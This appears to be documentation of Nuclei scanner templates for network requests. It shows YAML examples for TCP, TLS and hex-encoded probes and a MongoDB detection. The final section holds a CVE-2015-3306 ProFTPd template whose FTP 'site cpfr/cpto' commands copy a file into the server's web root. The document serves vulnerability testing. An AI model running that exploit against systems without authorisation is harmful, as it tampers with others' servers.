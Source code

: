```yaml
---
title: "Network"
---
```


## Basic Network Request

This template connects to a network service, sends some data and reads 4 bytes from the response. Matchers are run to identify valid response, which in this case is `PONG`.

```yaml
id: basic-network-request

info:
  name: Basic Network Request
  author: pdteam
  severity: info

tcp:
  - host: 
      - "{{Hostname}}"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

## TLS Network Request

Similar to the above template, but the connection to the service is done with TLS enabled.

```yaml
id: basic-tls-network-request

info:
  name: Basic TLS Network Request
  author: pdteam
  severity: info

tcp:
  - host: 
      - "tls://{{Hostname}}"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

## Hex Input Request

This template connects to a network service, sends some data encoded in hexadecimal to the server and reads 4 bytes from the response. Matchers are run to identify valid response, which in this case is `PONG`. The match words here are encoded in Hexadecimal, using `encoding: hex` option of matchers.

```yaml
id: hex-network-request

info:
  name: Hex Input Network Request
  author: pdteam
  severity: info

tcp:
  - host: 
      - "{{Hostname}}"
    inputs:
      - data: "50494e47"
        type: hex
      - data: "\r\n"
        
    read-size: 4
    matchers:
      - type: word
        part: data
        encoding: hex
        words:
          - "504f4e47"
```

## Input Expressions

Inputs specified in network also support DSL Helper Expressions, so you can create your own complex inputs using variety of nuclei helper functions. The below template is an example of using `hex_decode` function to send decoded input over wire.

```yaml
id: input-expressions-mongodb-detect

info:
  name: Input Expression MongoDB Detection
  author: pd-team
  severity: info
  reference: https://github.com/orleven/Tentacle

tcp:
  - inputs:
      - data: "{{hex_decode('3a000000a741000000000000d40700000000000061646d696e2e24636d640000000000ffffffff130000001069736d6173746572000100000000')}}"
    host:
      - "{{Hostname}}"
    read-size: 2048
    matchers:
      - type: word
        words:
          - "logicalSessionTimeout"
          - "localTime"
```

## Multi-Step Requests

This last example is an RCE in proFTPd which, if vulnerable, allows placing arbitrary files in any directory on the server. The detection process involves a random string on each nuclei run using `{{randstr}}`, and sending multiple lines of FTP input to the vulnerable server. At the end, a successful match is detected with the presence of `Copy successful` in the response.

```yaml
id: CVE-2015-3306

info:
  name: ProFTPd RCE
  author: pd-team
  severity: high
  reference: https://github.com/t0kx/exploit-CVE-2015-3306
  tags: cve,cve2015,ftp,rce

tcp:
  - inputs:
      - data: "site cpfr /proc/self/cmdline\r\n"
        read: 1024
      - data: "site cpto /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpfr /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpto /var/www/html/{{randstr}}\r\n"
    host:
      - "{{Hostname}}"
    read-size: 1024
    matchers:
      - type: word
        words:
          - "Copy successful" 
```